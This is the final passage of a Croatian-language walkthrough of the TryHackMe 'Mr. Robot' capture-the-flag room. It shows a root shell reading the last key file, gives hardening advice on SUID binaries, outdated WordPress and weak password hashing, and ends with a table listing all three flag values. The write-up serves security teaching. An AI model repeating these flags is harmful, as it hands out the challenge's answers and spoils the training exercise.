Čitamo sadržaj posljednje tekstualne datoteke:

```shell
# cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

**Ključ br. 3 osiguran:** `04787ddef27c3dee1ee161b21670b4e4`

---

## Zaključak i sigurnosne preporuke

TryHackMe Mr. Robot CTF izvrstan je prikaz višefaznog iskorištavanja sustava. Ilustrira kako jednostavni, manji propusti i loše konfiguracije — kao što su izloženi base64 niz, loše sažimanje lozinki, zastarjeli softver i SUID dozvole — mogu kaskadno dovesti do potpunog preuzimanja poslužitelja.

### Smjernice za sanaciju

1. **Čišćenje web korijena (Web Root) i dozvola:** Osjetljive datoteke (poput `.dic` popisa riječi ili prilagođenih tekstualnih datoteka) nikada ne bi trebale biti dostupne iz javno izloženog korijenskog web direktorija. Konfiguracija `/robots.txt` ne smije otkrivati aktivne resurse sustava ili vjerodajnice.
2. **Uklanjanje zastarjelih verzija CMS-a:** Zastarjeli softverski paketi poput WordPressa 4.3.1 iznimno su ranjivi. Nadogradite sve web aplikacije, dodatke (plug-ins) i jezgrene CMS sustave na njihove najnovije stabilne zakrpe.
3. **Revizija SUID konfiguracija:** Redovito pregledavajte sustave u potrazi za SUID/SGID binarnim datotekama. Nemojte konfigurirati moćne uslužne programe za izvršavanje poput Nmap-a, kompilatora ili tekstualnih uređivača sa SUID dozvolama. Ako je izvršavanje s root ovlastima nužno za određene zadatke, strogo kontrolirajte dozvole putem pažljivo oblikovanih pravila u `/etc/sudoers` datoteci.
4. **Implementacija robusnih politika lozinki:** Izbjegavajte reference na vjerodajnice u čistom tekstu ili standardne MD5 sheme sažimanja. Zaštitite sve vjerodajnice snažnim, posoljenim (salted) i modernim algoritmima za sažimanje (npr. bcrypt, Argon2).

---

## Retrospektivna tablica zastavica (Flag Ledger)

Ovo je konačni popis ključeva prikupljenih tijekom kompromitacije sustava:

| Pitanje / Lokacija ključa | Preuzeti sažetak (Hash) |
| :--- | :--- |
| **Ključ br. 1** (iz `/robots.txt` / korijena web poslužitelja) | `073403c8a58a1f80d943455fb30724b9` |
| **Ključ br. 2** (iz `/home/robot/key-2-of-3.txt`) | `822c73956184f694993bede3eb39f959` |
| **Ključ br. 3** (iz `/root/key-3-of-3.txt`) | `04787ddef27c3dee1ee161b21670b4e4` |

*Ovaj vodič namijenjen je isključivo u edukativne svrhe te za prikaz važnosti sigurne konfiguracije sustava, robusnih kontrola pristupa i proaktivnog upravljanja zakrpama.*